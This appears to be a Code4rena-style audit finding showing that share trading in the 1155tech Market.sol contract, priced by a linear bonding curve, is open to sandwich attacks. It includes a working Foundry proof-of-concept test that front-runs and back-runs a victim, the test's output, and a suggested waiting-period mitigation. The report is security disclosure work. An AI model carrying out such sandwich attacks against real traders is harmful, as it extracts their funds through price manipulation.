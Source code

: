 # Buying and selling shares in the `Market.sol` is vulnerable to sandwich attacks

## Bug description

`1155tech` part of this protocol is an art protocol where the users can buy/sell shares, earn interest with those shares, or mint/burn NFTs using these shares.

There are two main things here: shares and NFTs.

Users must buy shares first.

* Shares earn interest.  
    Users can earn some portion of the fee generated by volume of this collection just by holding shares. This is called holder's cut.
    
* Shares can be switched to NFTs by paying the NFT minting fee.  
    The shares switched to NFTs do **not** earn interest.  
    This action decreases the shares in circulation (not the total share count).
    

As mentioned in the protocol's Code4rena contest page, users may not have incentives to mint more than 1 NFT. However, this is not the case for the shares as they earn interest.  
Users will want to have more shares to get more interest, especially if it's an art collection with a high secondary market volume.

Share prices are determined by a bonding curve. It is a [linear bonding curve](https://github.com/code-423n4/2023-11-canto/blob/335930cd53cf9a137504a57f1215be52c6d67cb3/1155tech-contracts/src/bonding_curve/LinearBondingCurve.sol#L14C1-L25C6) at the moment. The price of one share increases with the share count.

```solidity
    function getPriceAndFee(uint256 shareCount, uint256 amount)
        external
        view
        override
        returns (uint256 price, uint256 fee)
    {
        for (uint256 i = shareCount; i < shareCount + amount; i++) {
            uint256 tokenPrice = priceIncrease * i;
            price += tokenPrice;
            fee += (getFee(i) * tokenPrice) / 1e18;
        }
    } 
```

Users buy the lowest-priced share first when buying and the price increases after every buy.  
They sell the highest-priced share first when selling and the price decreases after every sale.  
[https://github.com/code-423n4/2023-11-canto/blob/335930cd53cf9a137504a57f1215be52c6d67cb3/1155tech-contracts/src/Market.sol#L132C1-L136C6  
https://github.com/code-423n4/2023-11-canto/blob/335930cd53cf9a137504a57f1215be52c6d67cb3/1155tech-contracts/src/Market.sol#L141C1-L145C6](https://github.com/code-423n4/2023-11-canto/blob/335930cd53cf9a137504a57f1215be52c6d67cb3/1155tech-contracts/src/bonding_curve/LinearBondingCurve.sol#L14C1-L25C6)

```solidity
    function getBuyPrice(uint256 _id, uint256 _amount) public view returns (uint256 price, uint256 fee) {
        // If id does not exist, this will return address(0), causing a revert in the next line
        address bondingCurve = shareData[_id].bondingCurve;
        (price, fee) = IBondingCurve(bondingCurve).getPriceAndFee(shareData[_id].tokenCount + 1, _amount);
    }
//--------------
    function getSellPrice(uint256 _id, uint256 _amount) public view returns (uint256 price, uint256 fee) {
        // If id does not exist, this will return address(0), causing a revert in the next line
        address bondingCurve = shareData[_id].bondingCurve;
        (price, fee) = IBondingCurve(bondingCurve).getPriceAndFee(shareData[_id].tokenCount - _amount + 1, _amount);
    }
```

This price calculation makes the protocol vulnerable to sandwich attacks.

As I mentioned above, users are incentivized to buy multiple shares. If a user wants to buy 10 shares, an attacker can:

1. Buy 10 shares with a lower price, which will increase the price of the shares.
    
2. The user buys his/her 10 shares at a high price, and this increases the price higher.
    
3. The attacker sells those 10 shares immediately and gains profit.
    

Down below, you can find a coded PoC that demonstrates this scenario.  
Note: The same thing can happen for the opposite scenario too. Attacker can sell just before regular users sell their shares, and buy them back at the lower price

## Impact

* Users will buy shares with higher price or sell shares with lower price
    
* Attacker will gain immediate profit even after paying the fee
    

## Proof of Concept

### Coded PoC

You can use the protocol's own setup to test this PoC.  
\- Copy and paste the snippet into the `Market.t.sol` test file.  
\- Change `1e18` to a greater value like `1e20` in this [line](https://github.com/code-423n4/2023-11-canto/blob/335930cd53cf9a137504a57f1215be52c6d67cb3/1155tech-contracts/src/test/Market.t.sol#L28C9-L28C56)  
\- Run it with `forge test --match-test testSandwich -vvv`

```solidity
function testSandwich() public {
        // ----------------------------- PREPARE --------------------------------------
        // Create addresses and send some token to them
        address attacker = makeAddr("attacker");
        address victim = makeAddr("victim");
        token.transfer(attacker, 1 ether);
        token.transfer(victim, 1 ether);

        // Attacker and victim has 1 ether token balances each before the attack
        assertEq(token.balanceOf(attacker), 1 ether);
        assertEq(token.balanceOf(victim), 1 ether);

        // Approve
        vm.prank(attacker);
        token.approve(address(market), type(uint256).max);
        vm.prank(victim);
        token.approve(address(market), type(uint256).max);

        // Create a new share. Share id is 1.
        // Let's assume these shares already has some activity and other people bought some before (50 shares).
        testCreateNewShare();
        token.approve(address(market), type(uint256).max);
        market.buy(1, 50);
        
        // --------------------------- ATTACK --------------------------------------------      
        // Victim is going to buy 10 shares.
        // Attacker sandwiches the victim.
        
        // Attacker buys 10 shares
        vm.prank(attacker);
        market.buy(1, 10);

        // Victim buys 10 shares
        vm.prank(victim);
        market.buy(1, 10);

        // Attacker sells 10 shares
        vm.prank(attacker);
        market.sell(1, 10);

        // Attacker's balance is greater than before even after paying all the fees when buying and selling
        assertGt(token.balanceOf(attacker), 1 ether);
        console2.log("attacker balance: ", token.balanceOf(attacker)); // => 1078541721428571432 -------> 7% gain for with only 1 ether. 
    }
```

The test is performed with only 1 ether and a small number of shares just for demonstration, and the impact might be much higher depending on the current share count, price and how many shares will be minted.

The results are here:

```solidity
Running 1 test for src/test/Market.t.sol:MarketTest
[PASS] testSandwich() (gas: 640266)
Logs:
  attacker balance:  1078541721428571432

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 27.32ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Tools Used

Manual review, foundry

## Recommended Mitigation Steps

I acknowledge that the price increase is the nature of linear bonding curve. We can't prevent that. However, the sandwich attacks might be discouraged. For example there might be an enforced waiting period between buying and selling shares. Attackers can still front-run and buy shares at the lower price. However, they have to take the risk of the price going down during the waiting period which might discourage them.

---

**Note:** The original submission can be found [here](https://github.com/code-423n4/2023-11-canto-findings/issues/283).

